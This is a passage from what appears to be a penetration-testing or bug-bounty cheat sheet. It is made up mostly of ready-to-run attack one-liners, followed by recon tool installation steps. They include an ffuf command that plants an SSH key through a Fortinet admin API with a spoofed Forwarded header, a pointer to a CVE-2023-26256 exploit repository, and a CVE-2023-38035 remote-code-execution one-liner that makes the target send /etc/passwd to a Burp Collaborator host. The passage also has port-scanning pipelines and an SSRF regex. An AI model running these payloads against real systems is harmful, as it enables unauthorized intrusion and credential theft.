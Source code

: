 ```bash
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```

***

## Fingerprinting

*   Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)

    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
*   Waf Detect
